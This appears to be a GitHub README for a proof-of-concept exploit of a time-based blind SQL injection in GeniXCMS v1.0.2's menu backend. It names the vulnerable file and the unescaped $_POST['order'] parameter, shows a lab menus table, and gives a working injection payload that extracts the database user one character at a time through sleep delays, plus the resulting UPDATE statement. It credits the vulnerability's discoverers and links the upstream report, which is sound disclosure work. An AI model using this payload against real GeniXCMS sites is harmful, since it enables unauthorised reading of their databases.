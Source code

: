 # geniXCMS_102_sql_inj_poc
A demo PoC to exploit the time-based blind SQL injection vulnerability in latest GeniXCMS v1.0.2

# Notes
This SQL injection bug happened in the file `inc/lib/Control/Backend/menus.control.php` in GeniXCMS v1.0.2(latest) due to the parameter `$_POST['order']` failed to escape evil SQL injection keywords (only single quote has been filtered), and then it is used in a `UPDATE ... SET ...(injectable here)... WHERE ...` SQL statement.

In this demo case, only use `select user()` to burte forcing the current DB user.

Here is menus table in my Testing Lab machine:

```
mysql> select * from menus;
+----+------------+---------+--------+-----+------+-------+-------+-------+
| id | name       | menuid  | parent | sub | type | value | class | order |
+----+------------+---------+--------+-----+------+-------+-------+-------+
|  0 | test menu  | tstMenu | 0      | 0   | cat  | 1     |       | 0     |
|  3 | test menu2 | tstMenu | 0      | 0   | cat  | 1     |       | NULL  |
+----+------------+---------+--------+-----+------+-------+-------+-------+
2 rows in set (0.00 sec)
```

This is the SQL injection payload:

```
order[0][order`=1 and (select * from (select(if(ascii(substr((select user()),1,1))=114,sleep(3),0)))a) and `name]
```

This is the logic of SQL UPDATE statement after the payload injected:
```
UPDATE `menus` SET `id`='1' and (select * from (select(if(ascii(substr((select user()),1,1))=114,sleep(10),0)))a) and `name` = '1', WHERE `id` = '0' LIMIT 1;
```

# Reference
This vulnerability is discovered by `ADLab of Venustech`, and more detail can be found in [here][1]



<!--- Reference -->

[1]: https://github.com/semplon/GeniXCMS/issues/71#issuecomment-279409812				"SQL injection vulnerability in GeniXCMS v1.0.2(latest)"